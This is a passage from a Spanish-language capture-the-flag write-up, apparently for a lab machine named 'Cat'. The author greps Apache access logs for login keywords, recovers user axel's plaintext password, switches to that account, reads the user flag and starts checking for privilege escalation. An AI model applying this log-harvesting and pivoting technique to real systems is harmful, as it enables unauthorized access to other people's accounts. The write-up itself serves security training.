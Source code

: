 Accederemos al primer directorio, `/var/log/apache2` y comprobaremos que dispone de diversos de acceso y errores.

```bash
rosa@cat:/var/log/apache2$ ls -l
total 2472
-rw-r----- 1 root adm 1239128 Feb  5 02:11 access.log
-rw-r----- 1 root adm  185192 Jan 31 11:48 access.log.1
-rw-r----- 1 root adm     724 Jan 30 15:40 access.log.2.gz
-rw-r----- 1 root adm 1077499 Feb  5 01:59 error.log
-rw-r----- 1 root adm     346 Jan 31 11:48 error.log.1
-rw-r----- 1 root adm     351 Jan 30 15:40 error.log.2.gz
-rw-r----- 1 root adm       0 Jan 21 12:34 other_vhosts_access.log
```

Al revisar el contenido del archivo `access.log` filtrando a través de `regex`(expresiones regulares) por palabras clave como `username,password`, etc. Verificamos que aparece lo que parece ser las credenciales en texto plano del usuario `axel`.

```bash
rosa@cat:/var/log/apache2$ cat access.log | grep -iE "login|password|pass|username|user" | head -n 10
127.0.0.1 - - [05/Feb/2025:01:27:18 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [05/Feb/2025:01:27:29 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [05/Feb/2025:01:27:40 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [05/Feb/2025:01:27:50 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [05/Feb/2025:01:28:01 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
```

Intentaremos pivotar al usuario `axel`, comprobamos que las credenciales son válidas y hemos obtenido acceso con ese usuario y logramos visualizar la flag de **user.txt**.

```bash
rosa@cat:/var/log/apache2$ su axel
Password: 
axel@cat:/var/log/apache2$ cd /home/axel
axel@cat:~$ cat user.txt 
c34f48e1200***********************
```

## Privilege Escalation

Revisaremos los grupos a los que forma parte el usuario `axel`, verificamos que no forma parte de un grupo que podamos aprovecharnos para escalar nuestros privilegios. Revisando si disponemos de algún permiso de `sudoers` comprobamos que no disponemos de ningún privilegio.
